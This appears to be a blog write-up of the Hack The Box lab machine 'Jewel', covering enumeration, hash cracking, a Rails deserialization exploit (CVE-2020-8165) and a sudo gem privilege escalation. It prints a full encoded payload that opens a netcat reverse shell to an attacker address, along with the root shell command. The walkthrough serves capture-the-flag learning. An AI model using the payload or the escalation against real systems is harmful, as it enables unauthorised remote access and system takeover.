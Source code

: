 ```yaml
---
published: true
---
```

<h1>Scanning</h1>

<img src="https://i.ibb.co/dbW2t85/Screenshot-from-2021-02-13-17-25-59.png" alt="Screenshot-from-2021-02-13-17-25-59" border="0"> 

<p>We found port 22 for ssh and port 8000,8080 for HTTP where port 8000</p>

<p>Let`s add jewel.htb in our hosts </p>

<img src="https://i.ibb.co/5v1Xjw8/Screenshot-from-2021-02-13-17-54-04.png" alt="Screenshot-from-2021-02-13-17-54-04" border="0">
<h2>Enumeration</h2>
<h2>Port 8000</h2>
<img src="https://i.ibb.co/kxyH5Kj/Screenshot-from-2021-02-13-18-01-04.png" alt="Screenshot-from-2021-02-13-18-01-04" border="0">

<h2>port 8080</h2>
<img src="https://i.ibb.co/37D1z6D/Screenshot-from-2021-02-13-18-01-35.png" alt="Screenshot-from-2021-02-13-18-01-35" border="0">

<p>Let`s enumerate the BLOG!</p>
<img src="https://i.ibb.co/FmT1Ppz/Bill.png" alt="Bill" border="0">
<img src="https://i.ibb.co/s9vmvfL/Jennifer.png" alt="Jennifer" border="0">
<p>We found 2 user Bill,Jennifer </p>

<p>Let`s enumerate the REPO </p>
<img src="https://i.ibb.co/0fNWrZK/Screenshot-from-2021-02-13-18-15-14.png" alt="Screenshot-from-2021-02-13-18-15-14" border="0">

<p>After some enumerating i found SQL file "bd.sql" and i got some hashes</p>
<img src="https://i.ibb.co/d08S7kv/Screenshot-from-2021-02-13-18-18-20.png" alt="Screenshot-from-2021-02-13-18-18-20" border="0">

<p>I cracked Bill hash "spongebob" but couldn`t login, let`s countinue enumeration</p>
<img src="https://i.ibb.co/JKpyJ9q/Screenshot-from-2021-02-13-18-27-25.png" alt="Screenshot-from-2021-02-13-18-27-25" border="0">
<h2>User flag</h2>
<p>It`s using ruby '2.5.5' , let`s search for an exploit</p>
<p>After searching i found a CVE</p><a href="https://github.com/masahiro331/CVE-2020-8165">CVE-2020-8165</a> 
<p>I tested all the fields and i found that the vulnerable input in updating user fields</p>
<p>Payload <blockquote>%04%08o%3A%40ActiveSupport%3A%3ADeprecation%3A%3ADeprecatedInstanceVariableProxy%09%3A%0E%40instanceo%3A%08ERB%08%3A%09%40srcI%22U%60rm+%2Ftmp%2Ff%3Bmkfifo%20%2ftmp%2ff%3bcat%20%2ftmp%2ff%7c%2fbin%2fsh+-i+2%3e%261%7cnc+10.10.XX.XX+9001+%3e%2Ftmp%2ff%60%06%3A%06ET%3A%0E%40filenameI%22%061%06%3B%09T%3A%0C%40linenoi%06%3A%0C%40method%3A%0Bresult%3A%09%40varI%22%0C%40result%06%3B%09T%3A%10%40deprecatorIu%3A%1FActiveSupport%3A%3ADeprecation%00%06%3B%09T</blockquote></p>
<p>Change the ip to your ip</p>
<img src="https://i.ibb.co/52wq0rs/web10.png" alt="web10" border="0">
<img src="https://i.ibb.co/GRGjx1b/cmd2.jpg" alt="cmd2" border="0">
<pre>
<span class="k">$ su bill</span>
<span class="na">Password: </span>
<span class="k">bill@jewel:~$ whoami</span>
<span class="na">bill</span>
</pre>
<pre>
<p>The password is "spongebob" we cracked it 
if you remember </p><p>Let`s upgrade our shell </p>
</pre>
<img src="https://i.ibb.co/D4qw4cq/ssh.png" alt="ssh" border="0">
<img src="https://i.ibb.co/cCN66PD/ssshhs1.jpg" alt="ssshhs1" border="0">

<h2>Root flag</h2>
<p>I listed the directory as 1st step of enumeration and i found Google auth, it look like the admin use 2FA</p>
<img src="https://i.ibb.co/NydTvQn/Google-autyh.jpg" alt="Google-autyh" border="0">
<p>Let`s get the secret key and use google auth</p>
<img src="https://i.ibb.co/RghXZSW/cmd10.jpg" alt="cmd10" border="0">
<img src="https://i.ibb.co/GTBN0Wz/auth-1.jpg" alt="auth-1" border="0">
<img src="https://i.ibb.co/QcTKwXY/auth-2.jpg" alt="auth-2" border="0">
<p>Let`s generate the OTP</p>
<img src="https://i.ibb.co/89GyndH/web14.jpg" alt="web14" border="0">
<p>Let`s use the OTP</p>
<img src="https://i.ibb.co/MM9SNFy/cmd11.jpg" alt="cmd11" border="0">
<p>Looks like something wrong.</p>
<p>This step made my mind blow off , i searched a lot and asked for a nudge at HTB discord server</p>
<p>Someone told me it`s about sync with the victim box, let`s see</p>
<img src="https://i.ibb.co/PCjNDwg/cmd123.jpg" alt="cmd123" border="0">.
<img src="https://i.ibb.co/PCjNDwg/cmd123.jpg" alt="cmd123" border="0">
<p>Timezone is different, let`s set our machine to the victim timezone</p>
<img src="https://i.ibb.co/PxmmR2H/cmd163.jpg" alt="cmd163" border="0">
<img src="https://i.ibb.co/Mn5tVyQ/cmd1645.jpg" alt="cmd1645" border="0">
<p>Let`s try to escalate privilege again</p>
<img src="https://i.ibb.co/1M7W8dv/priv.jpg" alt="priv" border="0">
<p>Bam ! it`s working</p>
<pre>
<span class="k">sudo gem open -e "/bin/sh -c /bin/sh" rdoc</span>
                                                                </pre>
<img src="https://i.ibb.co/JzTS9cn/cmd19.jpg" alt="cmd19" border="0">

<p>Thanks for reading i hope you enjoyed </p>
